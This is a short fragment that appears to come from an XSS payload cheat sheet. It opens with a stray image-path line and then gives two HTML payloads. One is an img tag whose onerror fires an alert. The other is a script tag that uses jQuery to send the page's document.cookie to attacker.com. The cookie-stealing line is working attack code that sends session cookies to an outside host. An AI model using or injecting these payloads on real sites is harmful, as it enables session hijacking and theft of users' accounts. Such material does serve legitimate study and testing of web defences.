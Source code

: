 <!-- Basic payload -->
<img src=a onerror=alert(1)>

<!-- Make XHR request with jQuery -->
<script>$.get("//attacker.com/?"+document.cookie)</script>
